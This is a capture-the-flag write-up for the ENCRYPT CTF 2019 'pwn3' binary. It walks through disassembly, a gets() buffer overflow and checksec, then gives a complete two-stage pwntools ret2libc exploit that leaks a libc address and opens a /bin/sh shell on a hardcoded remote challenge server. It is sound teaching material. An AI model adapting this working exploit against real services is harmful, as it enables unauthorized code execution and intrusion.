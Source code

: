 ```yaml
---
layout: post
title:  "pwn3"
date:   2019-04-05 12:00:01 -0300
categories: [CTF,PWN,ENCRYPT CTF]
author: m4st3r3k
event: "ENCRYPT CTF"
tags: [CTF,PWN,ENCRYPT CTF]
description: "Writeup pwn3"
image: ""
---
```


[+] First of all check the binary file and execute

$ file pwn3 pwn3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=ce51da8814e47e16a2df43c69d5c6ee12cc9bbd8, not stripped

$./pwn3 I am hungry you have to feed me to win this challenge.

Now give me some sweet desert.

```
AAAA
```

[+] Let's see in GDB. The ELF is not stripped so we can disassemble easily.

gdb-peda$ disas main

```bash
   Dump of assembler code for function main:
   0x0804847d <+0>: push   ebp
   0x0804847e <+1>: mov    ebp,esp
   0x08048480 <+3>: and    esp,0xfffffff0
   0x08048483 <+6>: sub    esp,0x90
   0x08048489 <+12>:    mov    eax,ds:0x80497e0
   0x0804848e <+17>:    mov    DWORD PTR [esp+0xc],0x0
   0x08048496 <+25>:    mov    DWORD PTR [esp+0x8],0x2
   0x0804849e <+33>:    mov    DWORD PTR [esp+0x4],0x0
   0x080484a6 <+41>:    mov    DWORD PTR [esp],eax
   0x080484a9 <+44>:    call   0x8048370 <setvbuf@plt>
   0x080484ae <+49>:    mov    DWORD PTR [esp],0x8048570
   0x080484b5 <+56>:    call   0x8048340 <puts@plt>
   0x080484ba <+61>:    mov    DWORD PTR [esp],0x80485ac
   0x080484c1 <+68>:    call   0x8048340 <puts@plt>
   0x080484c6 <+73>:    lea    eax,[esp+0x10]
   0x080484ca <+77>:    mov    DWORD PTR [esp],eax
   0x080484cd <+80>:    call   0x8048330 <gets@plt>
   0x080484d2 <+85>:    mov    eax,0x0
   0x080484d7 <+90>:    leave  
   0x080484d8 <+91>:    ret    
End of assembler dump.
```

[+] gets() function is being used. gets() is dangerous because it provides a way of buffer overflow attack or an error. The function gets() work in a way that it reads data form standard input stream until a new line is found. Possibly a buffer overflow.

0x080484cd <+80>: call 0x8048330 gets@plt

[+] Let's check sec of binary.

gdb-peda$ checksec

```bash
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : disabled
```

NX is enabled this suggests that if there is buffer overflow, we will use the ret2libc

[+] Let's try to crash the binary:

$ python -c 'print "A" *300' | ./pwn3

I am hungry you have to feed me to win this challenge

Now give me some sweet desert

```
Segmentation fault
```

It is clear that it is buffer overflow.

Of course this would be easy to run locally, working with something like this:

```bash
buf = ""
buf += "A"*140                          #OVERWRITE STACK
buf += p32(system_addr)         #OVERWRITE EIP with system acquired through: readelf -s your_libc | grep puts
buf += p32(fake_return)           #FAKE RETURN  
buf += p32(bin_sh)                  #ARGUMENT OF SYSTEM with plt entry of puts acquired through: strings -a -t x your_libc | grep "/bin/sh"
```

Note: In 32-bit architecture arguments are passed on the stack so we do not need gadgets. False return is necessary because the system() function needs to be returned and without this your payload would be misaligned on the stack

[+] We know there is a buffer overflow and that nx is enabled. To make the NX bypass, we can use ret2libc. but ... the big question is how to do this remotely? How to know which libc is being used on the remote host?

1 - First of all we need to know that we will have to leak the libc address, this will also give us an advantage over ALSR if it is active on the remote host. For this to happen you need to overwrite the EIP with the PLT of puts and pass as an argument the GOT of some function. In our case I used the puts

2 - Knowing the address of libc, we can find out which libc the binary is using on the remote server. See https://github.com/niklasb/libc-database

3 - Now with the right libc, we can properly calculate the libc base and extract the necessary offsets for /bin/sh, system, puts. With the address of the libc base added to the offsets of / bin / sh and system respectively we will arrive at the complete address of where they are

4 - Do you remember the fake return? The difference is that we now need to point it to main, because the exploit needs to work in two parts. Leak an address from libc and return to main + ret2libc == got shell

See exploit below:

```python
import struct
import socket
from pwn import *


########################## [REMOTE EXPLOIT] by M4ST3R3K ##########################
                                  ###[PWN3]###



context(arch = 'i386', os = 'linux', endian = 'little')


#################### STAGE1 ####################

puts_plt = 0x8048340         #objdump -D pwn3 | grep puts
puts_got = 0x80497b0        #objdump -R pwn3 | grep puts
main = 0x804847d              #objdump -D pwn3 | grep main


buf = ""
buf += "A"*140                   #junk
buf += p32(puts_plt)          #plt entry of puts
buf += p32(main)               #return to main
buf += p32(puts_got)         #got entry of puts


s = remote('104.154.106.182', 4567)

log.info("Stage 1: ...Leaking Memory")

print ''

print s.recv()

s.sendline(buf)

received = s.recvline()

print received

leaked_puts_got = received[:4].strip().ljust(4, '\x00')

leaked_puts_got = u32(leaked_puts_got)

addrs = hex(leaked_puts_got)

leaked_puts_got = int(addrs, 16)

log.success("Leaked remote libc address: " + addrs)

print ''


#################### STAGE2 ####################

#---> libc obtained through the leak of the got puts address <---#
#libc6_2.19-0ubuntu6.14_i386

#---> dump of offsets obtained with libc-database <--- # https://github.com/niklasb/libc-database
#offset___libc_start_main_ret = 0x19af3
#offset_system = 0x00040310
#offset_dup2 = 0x000ddda0
#offset_read = 0x000dd3e0
#offset_write = 0x000dd460
#offset_str_bin_sh = 0x162d4c
                                    

offset_bin_sh = 0x162d4c 
offset_system = 0x40310
offset_puts = 0x657e0
libc_base = leaked_puts_got - offset_puts

system_addr = libc_base + offset_system
fake_addr = 0xbeefdead
bin_sh_addr = libc_base + offset_bin_sh


buf = ""
buf += "A"*132      #junk (in the second part of the exploration the payload had to be aligned. Obtained through debugger).
buf += p32(system_addr)       #system into libc
buf += p32(fake_addr)           #fake return address
buf += p32(bin_sh_addr)       #/bin/sh into libc

log.info("Stage 2: ...Obtaining Shell ")

print ''

s.sendline(buf)

s.interactive()
```
